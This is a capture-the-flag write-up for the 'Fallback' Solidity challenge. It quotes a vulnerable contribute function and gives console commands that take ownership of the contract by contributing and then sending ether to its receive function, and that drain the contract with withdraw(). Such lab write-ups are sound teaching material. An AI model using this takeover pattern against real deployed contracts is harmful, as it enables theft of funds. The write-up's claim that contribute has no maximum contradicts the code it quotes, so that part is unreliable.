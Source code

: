 # Challenge Title: Fallback
## Author

- [@SW02d](https://github.com/SWO2D)
## Goal(s)
You will beat this level if:

* You claim ownership of the contract
* You reduce its balance to 0

## Contract

`Fallback.sol`

## Issue(s)

* unauthorized takeover:

 the "contribute" function does not have a maximum amount that can be contributed


```
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```
## Attack scenario(s)

* Attacker could become the owner of this contract by contributing more than the original owner and surpassing their total contributions. The attacker could also use the "receive" function to send a transaction with a value greater than 0 in order to become the owner of the contract. then the attacker can call the "withdraw" function to withdraw all of the funds from the contract.

## Attack contract

[to add]

## Recommendation

We recommend to make sure that the code is secure by enforcing access controls correctly and implementing a maximum amount for the "contribute" function.

### Code fix

[to add]

## Solving the challenge
- Player address now has 0 contributions. so we can send a smaller amount than 0.001 to become a contributor.

```
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
```

- Now we can send any small amount we want for example 0.0000.1 wei:

```
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
```

- Congrats you're now the owner of the contract.
```
await contract.owner()
// Output: [ADDRESS]
```
- You can withdraw contract's funds:

```
await contract.withdraw()
```
